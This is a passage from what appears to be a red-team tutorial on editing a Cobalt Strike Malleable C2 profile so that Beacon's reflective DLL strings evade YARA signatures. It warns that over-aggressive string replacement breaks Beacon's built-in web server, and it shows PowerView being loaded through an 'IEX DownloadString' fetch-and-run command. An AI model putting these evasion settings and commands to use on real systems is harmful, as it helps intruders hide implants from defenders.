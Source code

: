 ```
stage {
        set userwx "false";
        set cleanup "true";

        transform-x64 {
                strrep "beacon.x64.dll" "data.dll";
                strrep "ReflectiveLoader" "LoadData";
        }
}
```

  

This can replace strings with Beacon's reflective DLL.  If we use this profile and generate new shellcode, YARA flags on fewer strings.

```
C:\Tools\YARA>yara64.exe -s beacon_strings.yara 6368
beacon_strings 6368
0x1a475bfd72c:$c: %02d/%02d/%02d %02d:%02d:%02d
0x1a475bfd758:$c: %02d/%02d/%02d %02d:%02d:%02d
0x1a475bfd700:$d: %s as %s\%s: %d
```
  

---

#### Warning on String Replacement

I've seen people attempt to replace practically every string they can find in the Beacon payload, break functionality, and not understand why.  Take the following example:

```
strrep "HTTP/1.1 200 OK" "";
```

  

Beacon contains a tiny built-in HTTP server, used in workflows such as `powershell-import`, `powershell` and `powerpick`.  Imported scripts are fetched and executed from this internal webserver.

```
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
beacon> powerpick Get-Domain

beacon> powerpick Get-Domain
[+] received output:
ERROR: DownloadString : Exception calling "DownloadString" with "1" argument(s): "The server committed a p
ERROR: rotocol violation. Section=ResponseStatusLine"
ERROR: 
ERROR: At line:1 char:46
ERROR: + IEX (New-Object Net.Webclient).DownloadString <<<< ('http://127.0.0.1:41100/'); Get-Domain
ERROR:     + CategoryInfo          : NotSpecified: (:) [], MethodInvocationException
ERROR:     + FullyQualifiedErrorId : DotNetMethodException
ERROR:  
ERROR: Get-Domain : The term 'Get-Domain' is not recognized as the name of a cmdlet, function, script file
ERROR: , or operable program. Check the spelling of the name, or if a path was included, verify that the p
ERROR: ath is correct and try again.
```
  